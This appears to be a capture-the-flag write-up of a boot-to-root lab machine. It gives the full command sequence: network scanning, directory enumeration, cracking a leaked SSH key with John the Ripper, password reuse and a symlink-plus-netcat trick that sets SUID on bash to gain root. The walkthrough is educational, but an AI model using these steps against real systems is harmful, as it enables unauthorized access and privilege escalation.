

To begin, let’s find the IP of our target machine using arp-scan by executing the following command:
arp-scan -I eth0 --localnet
üìù NOTE: Normally, the MAC addresses of VirtualBox virtual machines start with 08:
Now that we know its IP 192.168.18.169, let’s perform a port scan using NMAP to identify which ports are open, their services, and more information.
NMAP scan
So now that we know it has ports 22 and 80 open, let’s access the web page hosted on this machine to see if we can find any useful information.

It tells us that the website is under maintenance, nothing more. So, I decide to use Gobuster to enumerate subdirectories, and I come across a text file named staff_statements.txt:
Gobuster enumeration
staff_statements.txt
The site is not yet repaired. Technicians are working on it by using old SSH connection files. Although the message doesn’t specify which files, I inferred it could involve older key files like id_rsa.bak rather than the current id_rsa. I searched for these old files, found them, and proceeded to download them.
We download id_rsa.bak
Now that we have id_rsa.bak, we still need to know the username to log in. We already know the username since it is displayed when the machine starts:
User Jack
Before anything else, we need to grant permissions to the id_rsa.bak file with the following command:
chmod 600 id_rsa.bak
But when trying to access via SSH, it asks for a password, preventing us from entering.
It prevents us from accessing.
So, we can use John the Ripper to crack the password.
ssh2john id_rsa.bak > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
John the Ripper result
Now that we know the password, we can access.
We are the user Jack
I decide, first of all, to check the users on this machine.
grep /bin/bash /etc/passwd
Users on the machine
And we find 3 users: jack, helder, root.
Now it’s time for privilege escalation. In this case, we need to perform 2 privilege escalations to become the root user.
Privilege escalation to helder
Now, let’s use LinPEAS, a tool for enumeration and security auditing. It focuses on identifying files with the SUID (Set User ID) and SGID (Set Group ID) permission bits set, which can potentially be exploited by attackers to escalate privileges and gain unauthorized access.
We download LinPEAS with the following command:
wget -q https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
We grant permissions for its execution and run it, saving the results in a file named LinpeasLog.
./linpeas.sh > LinpeasLog
And after some time of searching, I come across the following:
üìù NOTE: The opasswd file stores users’ old passwords in Linux to prevent them from reusing them when changing their password.
Although it says it was Jack’s password, since some people reuse passwords (which is bad practice) we decided to check if it works for Helder. I tried it, and it worked. We obtained the user flag.
Upon realizing that LinPEAS didn’t reveal anything new, I decide to use pspy. It is a process monitoring tool that provides real-time visibility into running processes without requiring elevated privileges. I downloaded it to my local machine and transferred it to the target machine by hosting a simple Python web server.
Now we grant permissions and execute it.
Result
We discovered a script that runs every minute as the root user (UID 0) and uses netcat to connect to localhost on port 10000, saving the data exchanged over the connection to a file named out in /root/.local/. Afterwards, it compares the contents of /root/.local/helder.txt and /home/helder/passwd.txt. If they match, it sets the SUID bit on the executable located in /usr/bin/, with the filename specified by the content of the out file.
To achieve this, the first step is to create the passwd.txt file in /home/helder as a symbolic link pointing to /root/.local/helder.txt. This ensures that passwd.txt contains the same content as helder.txt, so the condition will be true.
ln -s /root/.local/helder.txt /home/helder/passwd.txt
⚠️ IMPORTANT: A symbolic link is like a shortcut that points to another file. When a program accesses the link, it actually reads the file it points to. So even if you don’t own the original file, the program can access it through the link.
Then, we check with the following command to confirm that it indeed points to /root/.local/helder.txt.
ls -la /home/helder/passwd.txt
Now, we listen on port 10000 and send the text ‘bash’. When the script runs, it will save this input to the out file and set the SUID bit on the corresponding executable in /usr/bin/. In this case, we’re granting SUID permissions to bash.
echo 'bash' | nc -lvnp 10000
What I mentioned can be observed in the code
After executing the exploit, we notice a brief connection. Now, /usr/bin/bash has the SUID bit set. Simply running the command bash -p grants us root privileges.
bash -p

All the previous process
Finally, we navigate to the /root directory and obtain the root flag.